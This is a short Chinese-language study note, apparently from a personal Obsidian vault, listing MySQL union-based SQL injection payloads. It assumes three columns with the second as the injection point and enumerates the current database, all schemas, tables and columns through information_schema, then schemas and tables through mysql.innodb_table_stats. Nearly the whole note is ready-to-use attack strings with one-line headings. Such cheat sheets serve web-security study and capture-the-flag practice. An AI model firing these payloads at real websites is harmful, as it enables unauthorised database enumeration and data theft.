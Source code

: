 基本原理都是利用[[group_concat]]以及mysql的**元数据库**或**元表格**
下面假设查询结果为三个字段，且注入点为2

---
# 使用`imformation_schema`数据库
## 爆库
### 获取当前数据库
```sql
1' union select 1,database(),3;#
```
### 爆出所有数据库
```sql
1' union select 1,group_concat(schema_name),3 from information_schema.schemata;#
```
## 爆表
```sql
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='<database_name>';#
```
## 爆字段
```sql
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='<table_name>';#
```

---
# 使用`mysql.innodb_table_stats`表
![[Pasted image 20221125170222.png]]
## 爆库
```sql
1' union select 1,group_concat(database_name),3 from mysql.innodb_table_stats#
```

## 爆表
```sql
1' union select 1,group_concat(table_name),3 from mysql.innodb_table_stats#
```

#Web #SQL注入 #联合注入 